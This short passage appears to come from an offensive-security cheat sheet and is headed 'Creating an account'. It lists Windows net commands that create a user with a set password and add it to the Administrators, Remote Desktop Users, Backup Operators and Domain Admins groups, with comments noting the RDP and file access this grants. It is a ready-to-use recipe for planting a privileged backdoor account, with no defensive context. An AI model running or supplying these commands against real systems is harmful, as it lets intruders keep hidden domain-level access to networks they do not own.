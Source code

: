 #### Creating an account
- `net user name Username12345678* /add /Y`
- `net localgroup administrators name /add`
- `net localgroup "Remote Desktop Users" name /add` #access RDP
- `net localgroup "Backup Operators" name /add` #full acceess to files
- `net group "Domain Admins" name /add /domain` 
- `net user name /ACTIVE:YES /domain` #enables domain user account
